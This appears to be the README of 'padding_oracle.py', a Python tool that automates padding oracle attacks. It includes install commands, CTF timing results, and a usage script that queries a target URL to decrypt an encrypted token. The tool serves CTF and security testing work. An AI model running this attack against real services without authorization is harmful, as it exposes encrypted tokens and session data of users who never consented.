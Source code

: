 # padding_oracle.py

Fast threaded [padding oracle](https://en.wikipedia.org/wiki/Padding_oracle_attack) attack automation script for Python 3.

## Install

PyPI:

```shell
pip3 install -U padding_oracle
```

GitHub:

```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance

Tested on [0x09] Cathub Party from EDU-CTF:

| Request Threads | Execution Time |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## Usage

Let's say we are going to test `https://the.target.site/api/?token=BASE64_ENCODED_TOKEN`

```python
from padding_oracle import padding_oracle, base64_encode, base64_decode
import requests, string

sess = requests.Session() # for connection pool
url = 'https://the.target.site/api/'

def check_decrypt(cipher: bytes):
    resp = sess.get(url, params={'token': base64_encode(cipher)})

    if 'failed' in resp.text:
        return False
    elif 'success' in resp.text:
        return True
    else:
        raise RuntimeError('unexpected behavior')

cipher = base64_decode('BASE64_ENCODED_TOKEN')
# becomes IV + block1 + block2 + ...
assert len(cipher) % 16 == 0

plaintext = padding_oracle(
    cipher, # cipher bytes
    block_size = 16,
    oracle = check_decrypt,
    num_threads = 16,
    chars = string.printable # possible plaintext chars
)
```

This package also provides PHP-like encoding/decoding functions:

```python
from padding_oracle.encoding import (
    urlencode,
    urldecode,
    base64_encode,
    base64_decode,
)
```

<!-- PiuPiuPiu -->
